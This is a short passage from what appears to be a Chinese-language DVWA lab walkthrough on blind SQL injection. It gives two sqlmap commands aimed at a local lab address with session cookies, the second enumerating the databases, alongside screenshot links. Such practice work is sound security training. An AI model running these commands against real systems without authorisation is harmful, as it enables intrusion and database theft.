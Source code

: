 ![image-20230805102951227](./DVWA.assets/image-20230805102951227.png)



```shell
sqlmap -u "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=8fkivqb2c1oaqmugqcka4mkgma"
```

![image-20230805103153831](./DVWA.assets/image-20230805103153831.png)



开始暴库

```shell
sqlmap -u "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=14e25onisogeuh3n3mlfkegd9s"  --dbs --batch
```
